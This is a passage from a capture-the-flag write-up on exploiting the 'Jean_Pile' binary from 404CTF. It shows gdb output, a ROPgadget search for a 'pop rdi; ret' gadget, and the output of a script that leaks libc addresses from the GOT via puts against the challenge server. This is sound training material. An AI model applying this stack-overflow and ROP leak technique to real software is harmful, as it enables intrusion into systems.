 The rbp is stored right after our input on the stack : we'll need an offset of 48 bytes to reach it.  
  
Now, to leak the GOT table, we'll need to pass arguments to the `puts` function. Let's see what register is used to do so :

```gdb
───────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4007c7 <menu+0000>      push   rbp
     0x4007c8 <menu+0001>      mov    rbp, rsp
     0x4007cb <menu+0004>      lea    rdi, [rip+0x3d6]        # 0x400ba8
 →   0x4007d2 <menu+000b>      call   0x400660 <puts@plt>
   ↳    0x400660 <puts@plt+0000>  jmp    QWORD PTR [rip+0x2019b2]        # 0x602018 <puts@got.plt>
        0x400666 <puts@plt+0006>  push   0x0
        0x40066b <puts@plt+000b>  jmp    0x400650
        0x400670 <printf@plt+0000> jmp    QWORD PTR [rip+0x2019aa]        # 0x602020 <printf@got.plt>
        0x400676 <printf@plt+0006> push   0x1
        0x40067b <printf@plt+000b> jmp    0x400650
───────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
puts@plt (
   $rdi = 0x0000000000400ba8 → "                                              _   [...]"
)
```

We can see that the rdi is used to pass arguments to the `puts` function. We'll need a gadget to modify it :

```console
$ ROPgadget --binary jean_pile | grep rdi
0x0000000000400b83 : pop rdi ; ret
```

Finally, we'll need to leak several addresses of the GOT to get a better idea of which libc we are working with. 
Let's find two more GOT entries :

```gdb
gef➤  x/i main+29
   0x400aa9 <main+29>:	call   0x4006b0 <setvbuf@plt>

gef➤  x/i service+256
   0x400a36 <service+256>:	call   0x400680 <fgets@plt>
```

Using all of these informations, we can write [this script](./leak.py) that gives us this leak :

```python
$ python3 leak.py
[*] '/home/coucou/Documents/404CTF_WriteUps/Jean_Pile/jean_pile'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
[+] Opening connection to challenges.404ctf.fr on port 31957: Done
puts : 0x7f256ab5b980
setvbuf : 0x7f256ab5bf90
fgets : 0x7f256ab5a040
[*] Closed connection to challenges.404ctf.fr port 31957
```
